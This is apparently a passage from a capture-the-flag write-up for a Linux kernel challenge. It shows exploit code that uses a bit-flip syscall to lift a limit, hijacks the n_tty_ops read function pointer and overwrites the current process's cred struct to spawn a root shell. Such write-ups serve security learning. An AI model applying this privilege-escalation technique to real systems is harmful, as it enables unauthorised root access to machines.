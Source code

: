 ```sh
poweroff -d 0 -f

```

we save global variables load address in /kallsyms, and read them after booting the kernel

```c
unsigned long flit_count_addr = 0xffffffff818f4f78;
unsigned long current_task_addr = 0xffffffff8182e040;
unsigned long n_tty_ops = 0xffffffff8183e320;
unsigned long n_tty_ops_read = 0xffffffff8183e350;
unsigned long n_tty_read = 0xffffffff810c8510;
```



then we overwrite the first bit of *flit_count_addr* to bypass the flip count limit

```c
void flitbip(void* addr, long int bit){
    syscall(333, addr, bit);
}

int main(){
    save_state(state);
    flitbip((void*)flit_count_addr, 63);
```

next we will hijack a function pointer in kernel, making it point to our user space code *get_root*, and the kernel will jump to our code with privillege 0(no SMEP) when the function pointer is called. Then we overwrite the *cred* struct of the current process to achieve privillege escalation

```c
volatile void get_root(void){
    // hang();
    int* cred = (int*)(*(unsigned long*)(*(unsigned long*)current_task_addr + 0x3c0));
    for(int i=0;i<9;i++) cred[i] = 0;
    *(unsigned long*)n_tty_ops_read = (unsigned long)n_tty_read;
    ret2user_shellcode(state.ss, state.sp, state.rflag, state.cs, spawn_shell);
}
```



### which function pointer to hijack

during the process of kernel init, the *start_kernel()* calls *console_init()* to allocate and init a tty struct for console tty. The *console_init()* calls *n_tty_init()* to set tty_operation for the tty struct. In *n_tty_init()*, it set the tty_operation field of the console tty struct to a global struct variable *n_tty_ops*, which is defined as

```c
static struct tty_ldisc_ops n_tty_ops = {
	.magic           = TTY_LDISC_MAGIC,
	.name            = "n_tty",
	.open            = n_tty_open,
	.close           = n_tty_close,
	.flush_buffer    = n_tty_flush_buffer,
	.read            = n_tty_read,
	.write           = n_tty_write,
	.ioctl           = n_tty_ioctl,
	.set_termios     = n_tty_set_termios,
	.poll            = n_tty_poll,
	.receive_buf     = n_tty_receive_buf,
	.write_wakeup    = n_tty_write_wakeup,
	.receive_buf2	 = n_tty_receive_buf2,
};
```
